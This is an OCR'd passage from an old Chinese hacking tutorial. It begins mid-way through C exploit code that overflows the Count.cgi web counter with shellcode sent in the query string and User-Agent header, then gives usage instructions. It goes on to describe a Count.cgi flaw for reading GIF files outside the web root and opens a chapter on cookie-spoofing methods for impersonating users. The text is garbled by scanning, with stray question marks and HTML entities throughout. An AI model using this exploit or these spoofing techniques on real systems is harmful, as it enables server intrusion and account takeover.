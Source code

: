 qs[4116]=? sp&amp;0x000000ff;
qs[4117]=(sp&amp;0x0000ff00)&gt;&gt;8;
qs[4118]=(sp&amp;0x00ff0000)&gt;&gt;16;
qs[4119]=(sp&amp;0xff000000)&gt;&gt;24;
qs[4120]=? sp&amp;0x000000ff;
qs[4121]=(sp&amp;0x0000ff00)&gt;&gt;8;
qs[4122]=(sp&amp;0x00ff0000)&gt;&gt;16;
qs[4123]=(sp&amp;0xff000000)&gt;&gt;24;
qs[4124]=? sp&amp;0x000000ff;
qs[4125]=(sp&amp;0x0000ff00)&gt;&gt;8;
qs[4126]=(sp&amp;0x00ff0000)&gt;&gt;16;
qs[4127]=(sp&amp;0xff000000)&gt;&gt;24;
qs[4128]=? sp&amp;0x000000ff;
qs[4129]=(sp&amp;0x0000ff00)&gt;&gt;8;
qs[4130]=(sp&amp;0x00ff0000)&gt;&gt;16;
qs[4131]=(sp&amp;0xff000000)&gt;&gt;24;
strcpy((char*)&amp;qs[4132],shellcode);?
sock? =? openhost(host,80);
write(sock,"GET? /cgi-bin/Count.cgi?",23);
write(sock,qs,strlen(qs));
write(sock,"? HTTP/1.0\n",10);
write(sock,"User-Agent:? ",12);
write(sock,qs,strlen(qs));
write(sock,"\n\n",2);
sleep(1);?
/*? printf("GET? /cgi-bin/Count.cgi?%s? HTTP/1.0\nUser-Agent:? %s\n\n",qs,qs);? */?
/*
setenv("HTTP_USER_AGENT",qs,1);?
setenv("QUERY_STRING",qs,1);
system("./Count.cgi");
*/
}?
------------------------------------?
用法是：count? -h?
例如：count? -h? <a href="http://www.foo.bar/">www.foo.bar</a>? -d? 127.0.0.1:0? -v? 22?
五、用Count.cgi看图片?
这个不算是很有用的漏洞，可是既然写到这儿了，也就顺便提一下吧。可以利用Count.cgi看WEB目

录以外的图片，据作者说有一些商业网站的图片里有一些商业机密，所以这个漏洞也算是有点用处

吧！哈哈！?
在浏览器中这样输入：
其中/path_to_gif/file.gif是你要看的图片的路径。?
注意，这一漏洞只能被用来看（或下载）GIF格式的图片，而不能用于其他类型的文件。

??? 第一卷 第四章
??

?现在有很多社区网为了方便网友浏览，都使用了cookie技术以避免多次输入密码（就如the9?
和vr），所以只要对服务器递交给用户的cookie进行改写就可以达到欺骗服务程序的目的。?
ＣＯＯＫＩＥ欺骗原理???
按照浏览器的约定，只有来自同一域名的cookie才可以读写，而cookie只是浏览器的，对通?
讯协议无影响，所以要进行cookie欺骗可以有多种途径：???
１、跳过浏览器，直接对通讯数据改写???
２、修改浏览器，让浏览器从本地可以读写任意域名cookie???
３、使用签名脚本，让浏览器从本地可以读写任意域名cookie（有安全问题）???
４、欺骗浏览器，让浏览器获得假的域名???
其中：???
方法１、２需要较专业的编程知识，对普通用户不太合适。???
方法３的实现有２种方法：???
１、直接使用签名脚本，不需要签名验证，但是产生很严重的安全问题，因为大家都要上网?
的，如果这样做你的硬盘文件就……???
２、对脚本进行签名后再使用签名脚本，但是需要专用的数字签名工具，对普通用户也不合?
适。???
方法４看样子应该是最合适的了，域名欺骗很简单，也不需要什么工具（当然如果你的机器?